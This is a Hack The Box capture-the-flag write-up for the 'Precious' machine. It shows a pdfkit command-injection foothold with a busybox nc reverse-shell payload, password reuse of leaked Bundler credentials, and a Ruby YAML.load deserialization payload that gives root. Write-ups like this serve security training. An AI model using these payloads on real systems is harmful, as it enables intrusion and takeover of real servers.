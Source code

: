 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Precious](https://app.hackthebox.com/machines/Precious)

> [!tip]- Spoiler Summary
> This target is running a simple web app with a vulnerable version of `pdfkit`, which allows for a foothold. Lateral movement is possible via leaked credentials and password reuse. Privilege escalation is possible by exploiting Ruby's YAML library.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Tue Aug  6 15:03:38 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN tcp_full t
Nmap scan report for t (10.10.11.189)
Host is up (0.092s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
$ whatweb http://t
http://t [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.10.11.189], RedirectLocation[http://precious.htb/], Title[302 Found], nginx[1.18.0]
ERROR Opening: http://precious.htb/ - no address for precious.htb

$ whatweb http://precious.htb
http://precious.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

## RCE

![](_/htb-precious-20240806-3.png)

I spent some time hunting for an RCE vulnerability in "Phusion Passenger 6.0.15", but couldn't find anything.

But, I got code execution via a POST parameter:

```console
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://precious.htb
Connection: keep-alive
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1
url=http%3A%2F%2F10.10.14.8%2Ffoo$(id)
```

This resulted in the following request to my web server:

```console
10.10.11.189 - - [06/Aug/2024 15:27:20] "GET /foouid=1001(ruby)%20gid=1001(ruby)%20groups=1001(ruby) HTTP/1.1" 404 -
```

My command options were limited via that vector. I was useful for recon (`cat /etc/passwd`, `cat /proc/self/environ`, and the like) but I couldn't use `>` redirection and many commands failed in ways I couldn't work around.

Eventually I realized that the web service was using a [vulnerable pdfkit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795), so passing an argument like the following was enough to get a reverse shell.

```text
http://example.htb/?name=#{'%20`busybox nc 10.10.14.8 443 -e sh`'}
```

```console
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.189] 40806
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

## Lateral Movement

```ruby
ruby@precious:/opt$ cat update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'
# TODO: update versions automatically
def update_gems()
end
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end
gems_file = list_from_file
gems_local = list_local_gems
gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end

ruby@precious:/opt$ cat sample/dependencies.yml
yaml: 0.1.1
pdfkit: 0.8.6
```

```console
ruby@precious:/opt$ ls -l update_dependencies.rb sample/dependencies.yml
-rw-r--r-- 1 root root  26 Sep 22  2022 sample/dependencies.yml
-rwxr-xr-x 1 root root 848 Sep 25  2022 update_dependencies.rb
```

`ruby@precious:/var/www/pdfapp/app/controllers/pdf.rb`:

```ruby
class PdfControllers < Sinatra::Base
  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end
  get '/' do
    erb :'index'
  end
  post '/' do
    url = ERB.new(params[:url]).result(binding)
    if url =~ /^https?:\/\//i
      filename = Array.new(32){rand(36).to_s(36)}.join + '.pdf'
      path = 'pdf/' + filename
      begin
           PDFKit.new(url).to_file(path)
          cmd = `exiftool -overwrite_original -all= -creator="Generated by pdfkit v0.8.6" -xmptoolkit= #{path}`
          send_file path, :disposition => 'attachment'
      rescue
           @msg = 'Cannot load remote URL!'
      end
    else
        @msg = 'You should provide a valid URL!'
    end
    erb :'index'
  end
end
```

Found creds for user `henry`:

```console
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~$ su - henry
Password:
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
```

That config file comes from [Bundler](https://bundler.io/v1.12/man/bundle-config.1.html). In this case, the credentials have been reused for the local login on the target.

## Privilege Escalation

User `henry` has Sudo privileges on the previously discovered Ruby script:

```console
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

I know the script reads a file called `dependencies.rb` from the current working directory, so I should be able to modify that file to get a root shell somehow.

I found a nice post called [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/). I adapted the payload [from here](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565).

Here's the working payload:

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: sh
         method_id: :resolve
```

```console
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Credits

- [Universal RCE with Ruby YAML.load](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
